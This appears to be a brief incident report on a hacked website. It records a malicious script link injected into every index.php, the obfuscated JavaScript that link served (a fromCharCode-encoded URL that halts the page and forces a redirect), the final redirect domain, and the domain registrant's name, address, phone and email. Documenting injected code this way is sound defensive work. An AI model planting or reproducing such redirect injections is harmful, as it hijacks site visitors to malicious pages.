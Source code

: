 ### In every index.php file the following link was placed:
```https://trend.linetoadsactive.com/m.js?n=nb5```

### Which at the time showed:

```window.stop();var l=String.fromCharCode(104,116,116,112,115,58,47,47,108,105,118,101,46,108,105,110,101,116,111,97,100,115,97,99,116,105,118,101,46,99,111,109,47,103,111,46,112,104,112,63,115,61,52,51,54,38,105,100,61,51,52,55,55,51,115,105,100,61,56,55,53,38,117,105,115,61,57,51,50,53,54);window.location.replace(l);document.location.href=l;```


### Which redirected to:
https://boliverfernanrdos.ga/?p=hfqwmzrrmu5gi3bpguydgni&sub2=trainsun22


### Domain info:
Name	Sherpa Chhechee
Address	Pashupati Road,
Zip / Postal code	44605
City	Nath
State/province	
Country	Nepal
Phone number	+977.14419361
Fax number	
E-mail address	sherpa.chhechee@apexscore.com
